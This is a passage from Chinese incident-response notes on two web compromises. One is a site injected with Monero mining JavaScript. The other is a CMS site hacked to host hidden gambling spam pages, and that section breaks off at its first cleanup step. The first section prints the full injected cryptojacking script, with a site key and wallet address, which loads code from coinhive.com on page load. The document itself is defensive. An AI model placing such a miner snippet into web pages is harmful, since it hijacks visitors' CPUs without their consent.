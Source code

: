 门罗币(Monero 或 XMR)，它是一个非常注重于隐私、匿名性和不可跟踪的加密数字货币。只需在网页中配置好js脚本，打开网页就可以挖矿，是一种非常简单的挖矿方式，而通过这种恶意挖矿获取数字货币是黑灰色产业获取收益的重要途径。

### 现象描述

利用XMR恶意挖矿，会大量占用用户的CPU资源，严重影响了网站的用户体验。

从08/09日0点开始，局域网内某IP访问网站页面会触发安全预警，只要访问此服务器上的网页，CPU直线上升100%

![img](https://bypass007.github.io/Emergency-Response-Notes/Web/image/2-5.jpg)

### 问题解析

通过获取恶意网页url，对网页页面进行分析，发现网站页面被植入在线门罗币挖矿代码：

<script> var script = document.createElement('script'); script.onload = function () { // XMR Pool hash var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu'); // TODO: Replace the below string with wallet string m.start('47DuVLx9UuD1gEk3M4Wge1BwQyadQs5fTew8Q3Cxi95c8W7tKTXykgDfj7HVr9aCzzUNb9vA6eZ3eJCXE9yzhmTn1bjACGK'); }; script.src = 'https://coinhive.com/lib/coinhive.min.js'; document.head.appendChild(script); </script>

删除js里面的恶意代码，网站被XMR 恶意挖矿，服务器已经被攻击，进一步做服务器入侵排查。



## 第3篇：批量挂黑页

作为一个网站管理员，你采用开源CMS做网站，比如dedecms，但是有一天，你忽然发现不知何时，网站的友情链接模块被挂大量垃圾链接，网站出现了很多不该有的目录，里面全是博彩相关的网页。而且，攻击者在挂黑页以后，会在一些小论坛注册马甲将你的网站黑页链接发到论坛，引爬虫收录。在搜索引擎搜索网站地址时，收录了一些会出现一些博彩页面，严重影响了网站形象。

### 原因分析

网站存在高危漏洞，常见于一些存在安全漏洞的开源CMS，利用0day批量拿站上传黑页。

### 现象描述：

某网站被挂了非常多博彩链接，链接形式如下：

 http://www.xxx.com/upload/aomendduchangzaixiandobo/index.html

 http://www.xxx.com/upload/aomendduchangzaixian/index.html

 http://www.xxx.com/upload/aomenzhengguidubowangzhan/index.html

链接可以访问，直接访问物理路径也可以看到文件，但是打开网站目录并没有发现这些文件，这些文件到底藏在了哪？

访问这些链接，跳转到如图页面：

![img](https://bypass007.github.io/Emergency-Response-Notes/Web/image/3-1.png)

### 问题处理：

1、打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文件、文件夹和驱动器”。

![img](https://bypass007.github.io/Emergency-Response-Notes/Web/image/3-2.png)
